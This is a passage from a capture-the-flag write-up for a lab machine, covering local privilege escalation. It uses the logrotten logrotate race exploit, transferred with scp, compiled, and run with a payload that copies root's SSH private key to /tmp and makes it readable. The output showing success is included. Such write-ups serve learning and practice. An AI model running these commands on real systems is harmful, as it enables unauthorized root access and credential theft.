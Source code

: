 ```console
2020/07/11 18:05:39 CMD: UID=0    PID=904    | /sbin/agetty -o -p -- \u --noclear tty1 linux 
...
...
2020/07/11 18:04:12 CMD: UID=0    PID=1065   | /usr/lib/policykit-1/polkitd --no-debug
2020/07/11 18:04:12 CMD: UID=0    PID=10     |
2020/07/11 18:04:12 CMD: UID=0    PID=1      | /sbin/init auto automatic-ubiquity noprompt
2020/07/11 18:04:14 CMD: UID=0    PID=51428  | sleep 5
2020/07/11 18:04:18 CMD: UID=1000 PID=51429  | /usr/sbin/apache2 -k start
2020/07/11 18:04:19 CMD: UID=0    PID=51431  | /usr/sbin/logrotate -f /root/log.cfg
2020/07/11 18:04:19 CMD: UID=0    PID=51430  | /bin/sh /root/log.sh
2020/07/11 18:04:19 CMD: UID=0    PID=51432  | sleep 5
```

pspy spits out lot of root processes, one of the root process uses `logrotate`   
`/usr/sbin/logrotate -f /root/log.cfg`   

## Logrotten
I searched for `logrotate privesc` and got a github repo named `logrotten` which explains the complete process to privesc using logrotate   
> [https://github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten)

first of all lets transfer the `logrotten.c` file using scp   
`scp -i id_rsa ./logrotten/logrotten.c reader@10.10.10.176:~/logrotten.c`   

now we need to compile the c file and in the payload we can just copy root's id_rsa file to /tmp   
```console
reader@book:~$ gcc -o logrotten logrotten.c
reader@book:~$ echo "cp /root/.ssh/id_rsa /tmp; chmod +r /tmp/id_rsa" > payload
reader@book:~$ cat payload 
cp /root/.ssh/id_rsa /tmp; chmod +r /tmp/id_rsa
```

during the exploit we need to change the content of log file `backups/access.log` for the exploit to take place   
so we will login as reader in another SSH session and change the content of log file after running the exploit    
```
reader@book:~$ ./logrotten -p ./payload backups/access.log
Waiting for rotating backups/access.log...
```

now echo something in the log file to change its content
```
reader@book:~$ echo "" > backups/access.log
```

and the exploit is successfully completed
```
reader@book:~$ ./logrotten -p ./payload backups/access.log
Waiting for rotating backups/access.log...
Renamed backups with backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
reader@book:~$ ls -al /tmp/id_rsa
-rw-r--r-- 1 root root 1679 Jul 11 18:54 /tmp/id_rsa
```
